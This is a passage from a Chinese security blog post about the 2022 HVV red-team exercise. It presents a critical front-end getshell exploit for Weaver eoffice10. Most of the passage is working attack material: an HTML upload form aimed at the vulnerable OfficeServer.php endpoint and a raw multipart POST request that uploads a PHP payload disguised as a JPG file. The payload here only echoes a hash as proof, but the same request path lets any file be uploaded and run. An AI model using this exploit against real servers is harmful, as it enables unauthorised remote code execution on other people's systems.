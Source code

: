 ![图片[8]-2022护网第五天 含IP情报、漏洞、趣事-FancyPig's blog](hw2022poc%E6%A2%B3%E7%90%86.assets/20220729183721747.png)





## 泛微 eoffice10 前台 getshell

漏洞等级：严重

漏洞详情：版本号：http://XXXXXXX:8010/eoffice10/version.json

```
<form method='post' action='http://XXXXXXXX:8010/eoffice10/server/public/iWebOffice2015/OfficeServer.php' enctype="multipart/form-data" > <input type="file" name="FileData"/></br></br> <input type="text" name="FormData" value="1"/></br></br> <button type=submit value="上传">上传</button> </form>
```



```
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1 
Host: XXXXXXXX:8010 
Content-Length: 378 
Cache-Control: max-age=0 
Upgrade-Insecure-Requests: 1 
Origin: null 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJjb5ZAJOOXO7fwjs 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/ *;q=0.8,application/signed-exchange;v=b3;q=0.9 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7 
Connection: close 
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs 
Content-Disposition: form-data; name="FileData"; filename="1.jpg" Content-Type: image/jpeg <?php echo md5(1);?> 
```